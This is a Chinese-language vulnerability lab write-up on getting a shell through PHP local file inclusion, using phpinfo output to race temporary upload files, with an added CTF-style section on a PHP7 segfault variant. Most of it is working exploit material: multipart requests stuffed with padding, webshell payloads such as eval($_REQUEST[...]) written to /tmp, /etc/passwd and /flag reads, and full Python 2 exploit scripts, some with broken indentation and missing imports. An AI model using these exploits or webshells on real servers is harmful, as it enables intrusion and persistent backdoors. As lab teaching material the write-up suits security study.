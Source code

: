 # PHP文件包含漏洞（利用phpinfo）

PHP文件包含漏洞中，如果找不到可以包含的文件，我们可以通过包含临时文件的方法来getshell。因为临时文件名是随机的，如果目标网站上存在phpinfo，则可以通过phpinfo来获取临时文件名，进而进行包含。

参考链接：

- https://dl.packetstormsecurity.net/papers/general/LFI_With_PHPInfo_Assitance.pdf

## 漏洞环境

执行如下命令启动环境：

```
docker-compose up -d
```

目标环境是官方最新版PHP7.2，说明该漏洞与PHP版本无关。

环境启动后，访问`http://your-ip:8080/phpinfo.php`即可看到一个PHPINFO页面，访问`http://your-ip:8080/lfi.php?file=/etc/passwd`，可见的确存在文件包含漏洞。

## 利用方法简述

在给PHP发送POST数据包时，如果数据包里包含文件区块，无论你访问的代码中有没有处理文件上传的逻辑，PHP都会将这个文件保存成一个临时文件（通常是`/tmp/php[6个随机字符]`），文件名可以在`$_FILES`变量中找到。这个临时文件，在请求结束后就会被删除。

同时，因为phpinfo页面会将当前请求上下文中所有变量都打印出来，所以我们如果向phpinfo页面发送包含文件区块的数据包，则即可在返回包里找到`$_FILES`变量的内容，自然也包含临时文件名。

在文件包含漏洞找不到可利用的文件时，即可利用这个方法，找到临时文件名，然后包含之。

但文件包含漏洞和phpinfo页面通常是两个页面，理论上我们需要先发送数据包给phpinfo页面，然后从返回页面中匹配出临时文件名，再将这个文件名发送给文件包含漏洞页面，进行getshell。在第一个请求结束时，临时文件就被删除了，第二个请求自然也就无法进行包含。

这个时候就需要用到条件竞争，具体流程如下：

1. 发送包含了webshell的上传数据包给phpinfo页面，这个数据包的header、get等位置需要塞满垃圾数据
2. 因为phpinfo页面会将所有数据都打印出来，1中的垃圾数据会将整个phpinfo页面撑得非常大
3. php默认的输出缓冲区大小为4096，可以理解为php每次返回4096个字节给socket连接
4. 所以，我们直接操作原生socket，每次读取4096个字节。只要读取到的字符里包含临时文件名，就立即发送第二个数据包
5. 此时，第一个数据包的socket连接实际上还没结束，因为php还在继续每次输出4096个字节，所以临时文件此时还没有删除
6. 利用这个时间差，第二个数据包，也就是文件包含漏洞的利用，即可成功包含临时文件，最终getshell

## 漏洞复现

利用脚本[exp.py](exp.py)实现了上述过程，成功包含临时文件后，会执行`<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>`，写入一个新的文件`/tmp/g`，这个文件就会永久留在目标机器上。

用python2执行：`python exp.py your-ip 8080 100`：

![](1.png)

可见，执行到第289个数据包的时候就写入成功。然后，利用lfi.php，即可执行任意命令：

![](2.png)

补充说明:

phpinfo+LFI

我们有文件包含，那么我们可以轻易的给代码写后门：

`file=php://filter/read=convert.base64-encode/resource=index.php`

最容易想到的是利用包含：

`http://ip/index.php?file=/flag`

即利用phpinfo会打印上传缓存文件路径的特性，进行缓存文件包含达到getshell的目的。

我们简单写一个测试脚本：
`
import requests
from io import BytesIO
files = {
  'file': BytesIO("<?php echo '_POST is cool!';")
}
url = "http://ip/phpinfo.php"
r = requests.post(url=url, files=files, allow_redirects=False)
data = re.search(r"(?<=tmp_name] =&gt; ).*", r.content).group(0)
#打印
#print r.content
print data
`
我们选择包含后写入文件的shell：

`<?php file_put_contents('/tmp/_POST', '<?php @eval($_POST[_GET]);?>');?>`

尝试进行exp编写：
`
import os
import socket
import sys
def init(host,port):
padding = '_POST'*2000
payload="""_POST test!<?php file_put_contents('/tmp/_POST', '<?php eval($_REQUEST[_POST]);?>');?>\r"""
request1_data ="""------WebKitFormBoundary9MWZnWxBey8mbAQ8\r
Content-Disposition: form-data; name="file"; filename="test.php"\r
Content-Type: text/php\r
\r
%s
------WebKitFormBoundary9MWZnWxBey8mbAQ8\r
Content-Disposition: form-data; name="submit"\r
\r
Submit\r
------WebKitFormBoundary9MWZnWxBey8mbAQ8--\r
""" % payload
request1 = """POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: _POSTpadding="""+padding+"""\r
Cache-Control: max-age=0\r
Upgrade-Insecure-Requests: 1\r
Origin: null\r
Accept: """ + padding + """\r
User-Agent: """+padding+"""\r
Accept-Language: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9MWZnWxBey8mbAQ8\r
Content-Length: %s\r
Host: %s:%s\r
\r
%s""" %(len(request1_data),host,port,request1_data)
request2 = """GET /index.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s:%s\r
\r
\r
"""
return (request1,request2)
def getOffset(host,port,request1):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(request1)
    d = ""
    while True:
        i = s.recv(4096)
        d+=i       
        if i == "":
            break
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        print 'not fonud'
    
    print "found %s at %i" % (d[i:i+10],i)
    return i+256
def phpinfo_LFI(host,port,offset,request1,request2):
s1 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s1.connect((host,port))
s2.connect((host,port))
s1.send(request1)
d = ""
while len(d) < offset:
d += s1.recv(offset)
try:
i = d.index("[tmp_name] =&gt; ")
fn = d[i+17:i+31]
s2.send(request2 % (fn,host,port))
tmp = s2.recv(4096)
if tmp.find("_POST test!") != -1:
return fn
except ValueError:
    return None
s1.close()
s2.close()
attempts = 1000
host = "ip"
port = "port"
request1,request2 = init(host,port)
offset = getOffset(host,port,request1)
for i in range(1,attempts):
print "try:"+str(i)+"/"+str(attempts)
sys.stdout.flush()
res = phpinfo_LFI(host,port,offset,request1,request2)
if res is not None:
print 'You can getshell with /tmp/_POST!'
break
`
LFI+php7崩溃

前一题我们能做，得益于phpinfo的存在，但如果没有phpinfo的存在，我们就很难利用上述方法去getshell。

但如果目标不存在phpinfo，应该如何处理呢？

这里可以用php7 segment fault特性。

我们可以利用：

`http://ip/index.php?file=php://filter/string.strip_tags=/etc/passwd`

加上我们有dir.php
`
<?php
$a = @$_GET['dir'];
if(!$a){
$a = '/tmp';
}
var_dump(scandir($a));
`
可以进行目录列举，我们只要找到临时文件名即可：

编写exp
`
import requests
from io import BytesIO
import re
files = {
  'file': BytesIO('<?php eval($_REQUEST[_POST]);')
}
url = 'http://ip/index.php?file=php://filter/string.strip_tags/resource=/etc/passwd'
try:
r = requests.post(url=url, files=files, allow_redirects=False)
except:
url = 'http://ip/dir.php'
r = requests.get(url)
data = re.search(r"php[a-zA-Z0-9]{1,}", r.content).group(0)
url = "http://ip/index.php?file=/tmp/"+data
data = {
'_POST':"readfile('/flag');"
}
r =  requests.post(url=url,data=data)
print r.content
`
